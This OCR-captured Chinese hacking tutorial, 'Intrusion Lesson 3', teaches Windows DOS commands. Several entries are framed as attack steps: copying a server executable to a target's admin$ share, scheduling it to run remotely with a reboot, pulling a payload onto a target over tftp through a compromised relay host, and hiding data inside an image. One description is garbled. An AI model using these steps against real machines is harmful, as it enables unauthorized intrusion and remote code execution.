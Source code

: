 


入侵第3课
DOS命令的学习
常用命令
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同） 
move 盘符\路径\要移动的文件名　存放移动文件的路径\移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖 
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令 
at id号 开启已注册的某个计划任务 
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止 
at id号 /delete 停止某个已注册的计划任务 
at 查看所有的计划任务 
at \\ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机 
finger username @host 查看最近有哪些用户登陆 
telnet ip 端口 远和登陆服务器,默认端口为23 
open ip 连接到IP（属telnet登陆后的命令） 
telnet 在本机上直接键入telnet 将进入本机的telnet 
copy 路径\文件名1　路径\文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件 
copy c:\srv.exe \\ip\admin$ 复制本地c:\srv.exe到对方的admin下 
cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件 
copy \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C： 
xcopy 要复制的文件或目录树　目标地址\目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件 
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

tftp -i 对方IP　put c:\server.exe 登陆后，上传本地c:\server.exe至主机 
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时) 
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface 
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息 
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令 
mem 查看cpu使用情况 
attrib 文件名(目录名) 查看某文件（目录）的属性 
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性 
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次环梦适奔洌?T:W上次被修改时间 
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间 
set 指定环境变量名称=要指派给变量的字符 设置环境变量 
set 显示当前所有的环境变量 
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量 
pause 暂停批处理程序，并显示出：请按任意键继续.... 
if 在批处理程序中执行条件处理（更多说明见if命令及变量） 
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签） 
call 路径\批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?） 
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量） 
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置 
echo 信息 在屏幕上显示出信息 
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中 
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello 
find 文件名 查找某文件 
title 标题名字 更改CMD窗口标题名字 
color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白 
prompt 名称 更改cmd.exe的显示的命令提示符(把C:\、D:\统一改为：EntSky\ )
#3 三： 
